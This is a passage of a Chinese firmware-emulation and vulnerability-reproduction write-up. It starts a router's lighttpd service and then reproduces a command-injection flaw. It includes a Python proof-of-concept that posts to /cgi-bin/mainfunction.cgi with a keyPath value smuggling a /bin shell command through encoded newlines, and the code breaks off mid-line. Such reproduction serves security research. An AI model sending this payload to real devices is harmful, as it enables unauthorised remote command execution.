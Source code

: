 ### 2. 找到服务并启动

使用命令`find ./ -name *.httpd`发现了几个 httpd, 其中主要是 lighttpd。

![](https://bbs.kanxue.com/upload/attach/202408/995344_296Z35U6QT7Q59P.webp)

直接启动失败，说没有配置文件：

![](https://bbs.kanxue.com/upload/attach/202408/995344_VUEVTMN63UA9BNM.webp)

尝试找配置文件：  
![](https://bbs.kanxue.com/upload/attach/202408/995344_ZEG7MZM9JBSGJ3A.webp)

发现相关 http 的配置文件，尝试使用 lighttpd 的配置文件即可启动成功，命令如图。

![](https://bbs.kanxue.com/upload/attach/202408/995344_H8G2CXVTNRQPPFD.webp)

发现 http 服务启动成功：  
![](https://bbs.kanxue.com/upload/attach/202408/995344_NTQBU23JF5DNXK2.webp)

三、复现
----

我们首先获取网络上的 POC 脚本进行复现：

```
import requests
host='http://10.10.10.2'
def run_cmd(cmd):
    try:
        headers = {
            "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0)Gecko/20100101 Firefox/75.0"
            }
        url = host + "/cgi-bin/mainfunction.cgi"
        data = "action=login&keyPath=%27%0A%2fbin%2f" + cmd + "%0A%27&loginUser=a&loginPwd=a"
        res = requests.post(url=url, data=data, timeout=(10, 15),headers=headers)
        if res.status_code == 200:
            return res.text
        else:
            print('error')
            return 1
    except Exception as e:
        return ""
 
data=run_cmd('cat
```

效果如下，说明仿真成功：

![](https://bbs.kanxue.com/upload/attach/202408/995344_K332ZUYFWYAKECD.webp)

四、分析
----

